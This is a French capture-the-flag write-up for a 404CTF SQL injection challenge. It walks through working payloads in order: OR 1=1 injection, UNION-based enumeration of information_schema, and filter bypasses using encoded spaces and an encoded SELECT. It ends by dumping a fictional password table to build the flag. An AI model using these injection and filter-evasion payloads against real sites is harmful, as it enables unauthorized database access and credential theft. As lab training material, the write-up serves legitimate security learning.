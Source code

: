Un site qui nous demande SUBTILEMENT de tenter des SQLi.

3 sections, la première s'intitule OR 

On tente donc la plus basique injection

`' OR 1=1; --`

Bingo, on obtient une table avec des infos. Cool !

```
1	RIRI	0145489625	5 avenue des groseilles	OpérationEpervier
2	FIFI	0145889625	1 rue des myrtilles	OpérationFaucon
3	LOULOU	0115789625	1 rue des pommes	OpérationFaucon
456	JAJA	0145769625	1 rue des pommes	OpérationGorfou
472	RORO	0189999625	5 boulevard des poires	OpérationFaucon
7456	TITI	404CTF{0145769456}	404CTF{21 rue des kiwis}	OpérationGorfou
7865	DEDE	0145781225	3 avenue des oranges	OpérationMouette
16579	DIDI	0145789625	1 rue des pommes	OpérationEpervier
```

On cherche Titi, ça tombe bien. On a le téléphone et l'adresse.

Au tour de la seconde page. Ce coup ci, on nous indique qu'il faudra utiliser Union
La même injection nous montre tous les résultats, mais aucun flag ici.
Commencons à énumerer la base
`' OR 1=1 UNION SELECT NULL, version() -- `
Nous donne 8.0.29
Cool, ça marche. Enumerons les tables

`user = page2@10.2.3.111`
`dbname = UnionVendeurs`
1 seule autre db : `information_schema`

Enumerer colonnes : `' OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns -- `

```
cooperatives	pseudo
cooperatives	cooperative
Users	id
Users	nom
Users	prenom
```

On avait déjà la première table, on affiche donc la seconde avec 
`' OR 1=1 UNION SELECT nom, prenom FROM Users --  `

```
Assin	Marc
Outan	Laurent
Gator	Ali
Reptile	Eric
Culé	Roland
404CTF{Vereux}	404CTF{UnGorfou}
Abbé	Oscar
Conda	Anna
```

On a maintenant Nom, Prenom, Telephone et Adresse.
Il nous manque Date, Heure et Mdp
Rdv sur la 3ème page qui nous parle de filtres. On va faire chauffer le FILTER BY
On n'a plus le droit aux espaces. Ah.
On les remplace par des %20
`'%20OR%201=1%20--%20`
donne
```
OpérationEpervier	2021-11-02	19h
OpérationMouette	2021-09-14	19h
OpérationFaucon	2022-01-01	20h
OpérationGorfou	404CTF{2022-07-14}	404CTF{01hDuMatin}
```
Il ne nous manque plus que le mot de passe
`'%20OR%201=1%20UNION%20SELECT%20table_schema,%20table_name,%20column_name%20FROM%20information_schema.columns%20--%20`
Apparemment, SELECT est bloqué aussi.
`1'%20OR%201=1%20UNION%20SELE%0bCT%20table_schema,%20table_name,%20column_name%20FROM%20information_schema.columns%20--%20`

`1'%20OR%201=1%20UNION%20%53%45%4c%45%43%54%20table_schema,%20table_name,%20column_name%20FROM%20information_schema.columns%20--%20` marche

```
RencontreVendeurs	Rdv	code
RencontreVendeurs	Rdv	dateRdv
RencontreVendeurs	Rdv	heureRdv
RencontreVendeurs	Password	id
RencontreVendeurs	Password	mdp
```

On cherche à afficher la table Password à présent :
`1'%20OR%201=1%20UNION%20%53%45%4c%45%43%54%20NULL,%20id,%20mdp%20FROM%20Password%20--%20`
```
1	d7uA9kYU3
	2	5qKrD4F7p
	3	SXq3rZ35v
	456	FGp4Q93tk
	472	qJB5y45Xe
	7456	404CTF{GorfousAuPouvoir}
	7865	S5eN2p5Wj
	16579	T3h98HdFy
```
On a tout ce qu'il nous faut pour récupérer le flag à présent

404CTF{NomPrénomTéléphoneAdresseDateHeureMdp}
->
404CTF{VereuxUnGorfou014576945621ruedeskiwis2022-07-1401hDuMatinGorfousAuPouvoir}
